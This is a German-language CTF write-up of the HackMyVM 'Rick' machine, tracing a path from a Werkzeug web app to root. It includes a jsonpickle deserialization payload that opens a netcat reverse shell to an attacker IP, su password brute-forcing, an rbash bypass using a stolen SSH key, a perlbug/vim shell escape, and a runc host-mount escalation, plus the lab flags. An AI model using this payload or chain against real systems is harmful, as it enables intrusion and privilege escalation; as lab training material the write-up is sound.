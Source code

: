 # Rick - HackMyVM (Hard)

![Rick.png](Rick.png)

## Übersicht

*   **VM:** Rick
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Rick)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 17. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Rick_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Rick" zu erlangen. Der initiale Zugriff erfolgte durch Ausnutzung einer unsicheren Deserialisierungs-Schwachstelle (vermutlich Python Pickle) in einer Python/Werkzeug-Webanwendung auf Port 5000. Ein speziell präparierter, Base64-kodierter Cookie-Wert (`username`) führte zur Remote Code Execution (RCE) als Benutzer `www-data`. Von dort aus wurde das Passwort (`internet`) für den Benutzer `morty` mittels eines `su`-Brute-Force-Skripts gefunden, nachdem ein Hinweis in einer Datei (`.important`) auf ein schwaches Passwort hindeutete. Nach dem Wechsel zu `morty` (der eine eingeschränkte `rbash` hatte, die durch SSH-Login umgangen wurde) wurde eine unsichere `sudo`-Regel entdeckt, die `morty` erlaubte, `/usr/bin/perlbug` als `rick` auszuführen. Dies wurde genutzt, um mittels Shell-Escape innerhalb von `vim` (als Editor für `perlbug` gewählt) eine Shell als `rick` zu erlangen. Die finale Eskalation zu Root erfolgte durch Ausnutzung einer weiteren unsicheren `sudo`-Regel, die `rick` erlaubte, `/usr/sbin/runc` als Root auszuführen. Durch Erstellen und Starten eines manipulierten Docker/OCI-Containers, der das Host-Root-Verzeichnis einband, wurde eine Root-Shell erhalten.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `netdiscover`
*   `nmap`
*   `gobuster`
*   `ssh`
*   `ssh-keygen` (für Host-Key-Management)
*   `curl`
*   `echo`
*   Base64 Decoder (implizit)
*   `nc` (netcat)
*   Python3 (`pty` Modul, `http.server`)
*   `export`
*   `stty`
*   `fg`
*   `git` (für `su-bruteforce`)
*   `wget`
*   `chmod`
*   `sh` (für `suBF.sh`)
*   `su`
*   `perlbug`
*   `vim` (innerhalb von `perlbug`)
*   `runc`
*   `nano`
*   Standard Linux-Befehle (`ls`, `cat`, `id`, `pwd`, `cd`, `sudo`, `find`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Rick" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.152) mit `netdiscover` identifiziert. Hostname `rick.vm` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 7.9p1), 80 (HTTP, Apache 2.4.38) und 5000 (HTTP, Werkzeug httpd 0.15.5 / Python 2.7.16).
    *   Port 80 zeigte eine Standardseite. Port 5000 gab einen "500 Internal Server Error" zurück, aber eine Anfrage auf `/whoami` (aus Nmap-Output) und ein `curl` auf `/` zeigten einen Redirect und ein Base64-kodiertes `username`-Cookie.

2.  **Initial Access (Python Deserialization RCE als `www-data`):**
    *   Der Base64-dekodierte Cookie-Wert (`{"py/object": "__main__.User", "username": "Rick"}`) deutete auf eine Python-Deserialisierungs-Schwachstelle hin.
    *   Ein bösartiger JSON-Payload wurde erstellt, der `subprocess.Popen` verwendet, um eine Netcat-Reverse-Shell zu starten: `{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["nc", "-e", "/bin/bash", "ANGRIFFS_IP", "8888"]}]}]}`.
    *   Dieser Payload wurde Base64-kodiert und als Wert für das `username`-Cookie in einer `curl`-Anfrage an `http://192.168.2.152:5000` gesendet.
    *   Eine Reverse Shell als `www-data` wurde auf einem Netcat-Listener (Port 8888) empfangen und stabilisiert.

3.  **Privilege Escalation (von `www-data` zu `morty` via `su` Bruteforce):**
    *   Als `www-data` wurde im Home-Verzeichnis von `morty` die Datei `.important` gefunden, die auf ein einfaches Passwort für `morty` hinwies.
    *   Das Skript `suBF.sh` (aus `carlospolop/su-bruteforce`) und eine Passwortliste (`top12000.txt`) wurden auf das Zielsystem hochgeladen.
    *   `sh ./suBF.sh -u morty -w top12000.txt` knackte das Passwort für `morty` zu `internet`.
    *   Mit `su morty` wurde zum Benutzer `morty` gewechselt. Es wurde festgestellt, dass `morty` eine eingeschränkte `rbash` verwendete.
    *   Der private SSH-Schlüssel von `morty` (`~/.ssh/id_rsa`) wurde ausgelesen und für einen SSH-Login verwendet, um eine normale Bash-Shell als `morty` zu erhalten.

4.  **Privilege Escalation (von `morty` zu `rick` via `sudo perlbug`):**
    *   `sudo -l` als `morty` zeigte, dass `/usr/bin/perlbug` als Benutzer `rick` ohne Passwort ausgeführt werden durfte: `(rick) NPASSWD: /usr/bin/perlbug`.
    *   `sudo -u rick /usr/bin/perlbug` wurde ausgeführt. `vim` wurde als Editor gewählt.
    *   Innerhalb von `vim` wurde mit `:!/bin/bash` eine Shell als Benutzer `rick` gestartet.
    *   Die User-Flag (`a52d68b19ebca39c7b821ab1a51fef2e`) wurde in `/home/rick/user.txt` gefunden.

5.  **Privilege Escalation (von `rick` zu `root` via `sudo runc`):**
    *   `sudo -l` als `rick` zeigte, dass `/usr/sbin/runc` als `root` ohne Passwort ausgeführt werden durfte: `(ALL : ALL) NPASSWD: /usr/sbin/runc`.
    *   In `/dev/shm` wurde mit `runc spec` eine Container-Konfiguration (`config.json`) und ein `rootfs`-Verzeichnis erstellt.
    *   Die `config.json` wurde bearbeitet, um das Host-Root-Verzeichnis (`/`) read-write (`"rw"`) in das Container-Root-Verzeichnis (`"destination": "/"` oder `"/mnt/root"`) zu binden.
    *   Der Container wurde mit `sudo /usr/sbin/runc run demo` gestartet.
    *   Dies führte zu einer Root-Shell innerhalb des Containers mit Zugriff auf das gesamte Host-Dateisystem.
    *   Die Root-Flag (`256fdda9b4e714bf9f38a92750debf70`) wurde in `/root/root.txt` (innerhalb des chroot/Containers) gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Python Insecure Deserialization:** Eine Webanwendung auf Port 5000 deserialisierte unsicher Python-Objekte aus einem Cookie, was zu RCE führte.
*   **Schwache Passwörter:** Das Passwort für den Benutzer `morty` (`internet`) konnte mit einer kleinen Wortliste gebruteforced werden.
*   **Eingeschränkte Shell (rbash) Bypass:** Die `rbash`-Einschränkung für `morty` wurde durch Auslesen des SSH-Schlüssels und erneuten Login via SSH umgangen.
*   **Unsichere `sudo`-Regeln:**
    *   `morty` durfte `perlbug` als `rick` ausführen. `perlbug` erlaubte das Starten eines Editors (`vim`), aus dem eine Shell als `rick` gestartet werden konnte.
    *   `rick` durfte `runc` als `root` ausführen. Dies ermöglichte das Erstellen eines privilegierten Containers, der das Host-Dateisystem mountet und somit Root-Zugriff auf den Host gewährt.
*   **Information Disclosure:** Eine Notiz (`.important`) gab einen Hinweis auf ein schwaches Passwort.

## Flags

*   **User Flag (`/home/rick/user.txt`):** `a52d68b19ebca39c7b821ab1a51fef2e`
*   **Root Flag (`/root/root.txt`):** `256fdda9b4e714bf9f38a92750debf70`

## Tags

`HackMyVM`, `Rick`, `Hard`, `Python Deserialization`, `Werkzeug`, `rbash bypass`, `sudo Exploit`, `perlbug`, `vim shell escape`, `runc Exploit`, `Docker Privilege Escalation`, `Linux`, `Web`, `Privilege Escalation`, `Apache`, `OpenSSH`
